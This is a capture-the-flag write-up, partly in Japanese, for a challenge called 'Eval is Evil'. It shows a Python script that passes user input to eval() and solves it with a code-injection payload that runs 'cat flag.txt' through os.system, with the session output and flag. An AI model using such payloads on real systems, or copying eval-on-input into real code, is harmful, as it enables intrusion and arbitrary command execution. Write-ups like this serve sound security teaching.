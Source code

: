 # Eval is Evil

If eval is so bad, then why is it so easy to use?

nc evalisevil.kctf-453514-codelab.kctf.cloud 1337

chall.py 
```
import random

def main():
    
    print("Let's play a game, I am thinking of a number between 0 and", 2 ** 64, "\n")

    try:
        guess = eval(input("What is the number?: "))
    except:
        guess = 0

    correct = random.randint(0, 2**64)
    
    if (guess == correct):
        print("\nCorrect! You won the flag!")
        flag = open("flag.txt", "r").readline()
        print(flag)
    else:
        print("\nYou lost lol")

main()
```
- eval(input("What is the number?: ")) で入力を評価
- ランダムな数値 correct が生成され、入力した値と比較
- 一致すれば flag.txt からフラグが表示される


## solve
- eval() 関数を使っているので、数字以外の任意のPythonコードを実行できる

`__import__('os').system('cat flag.txt')`
osモジュールをインポートして、シェルコマンド cat flag.txt を実行し、フラグを直接表示させる

```
$ nc evalisevil.kctf-453514-codelab.kctf.cloud 1337
== proof-of-work: disabled ==
Let's play a game, I am thinking of a number between 0 and 18446744073709551616 

What is the number?: __import__('os').system('cat flag.txt')
wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}
```

## flag
`wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}`